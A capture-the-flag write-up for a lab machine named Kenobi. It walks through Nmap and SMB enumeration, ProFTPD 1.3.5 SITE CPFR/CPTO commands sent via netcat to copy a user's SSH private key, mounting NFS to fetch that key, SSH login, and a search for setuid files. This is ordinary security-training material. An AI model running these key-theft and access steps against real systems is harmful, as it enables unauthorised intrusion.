 ## General Information
- Room: Kenobi
- Difficulty: Easy
- Date: 10/11/2023
- Description: "Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation." 


## Methodology
- Reconnaissance:
    - Conducted Nmap port scans for open ports and service details.
    - Utilized Nmap scripts for SMB and NFS enumeration.
- Tools and Exploitation:
    - Executed targeted Nmap scans for service versions.
    - Used smbclient and smbget for SMB enumeration.
    - Searched for CMS Made Simple 2.2 vulnerabilities with searchsploit.
    - Manipulated ProFTPD 1.3.5 via Netcat for FTP exploitation.
    - Explored NFS shares and mounted them.
    - Established SSH access using obtained credentials.
    - Identified setuid files for potential privilege escalation.


## Results

### Reconnaissance
- IP: 10.10.105.176-        
- Port Scan results:

| PORT   | STATE | SERVICE    | VERSION                                |
|--------|-------|------------|----------------------------------------|
| 21/tcp | open  | ftp        | ProFTPD 1.3.5                          |
| 22/tcp | open  | ssh        | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7        |
| 80/tcp | open  | http       | Apache httpd 2.4.18 (Ubuntu)            |
| 111/tcp| open  | rpcbind    | 2-4 (RPC #100000)                      |
| 139/tcp| open  | netbios-ssn| Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 445/tcp| open  | netbios-ssn| Samba smbd 3.X - 4.X (workgroup: WORKGROUP) |
| 2049/tcp| open | nfs        | 2-4 (RPC #100003)                      |

Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


### Tools and Exploitation

#### nmap scan
~~~nmap
nmap -sV -oN nmap_scan.txt 10.10.105.176
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmap_enum_shares.txt 10.10.105.176
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.228.131
~~~

#### SMB
~~~smbclient; smbget
smbclient //10.10.105.176/anonymous
smbget -R smb://10.10.105.176/anonymous
~~~

#### searchsploit
~~~searchsploit
└─$ searchsploit cms made simple 2.2 
~~~

#### Netcat
~~~ nc
$ nc 10.10.105.176 21                                                                    
SITE CPFR /home/kenobi/.ssh/id_rsa 
SITE CPTO /var/tmp/id_rsa 
~~~

#### mount
~~~ mount
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.228.131:/var /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa ./ 
sudo chmod 600 id_rsa  
~~~

#### SSH
~~~ssh
ssh -i id_rsa kenobi@10.10.105.176
~~~

#### find
~~~find
 find / -perm -u=s -type f 2>/dev/null 
~~~


### Exploited Vulnerabilities
- ProFTPD 1.3.5 Vulnerability:
    - Unauthorized FTP access and sensitive file retrieval due to ProFTPD 1.3.5 vulnerability exploitation.
- Samba Vulnerabilities:
    - Identified open SMB ports (139/tcp and 445/tcp) using Nmap.
    - Exploited Samba vulnerabilities for enumeration and access to anonymous shares.
- NFS Privilege Escalation:
    - Gained potential information exposure and privileges through NFS share mounting.
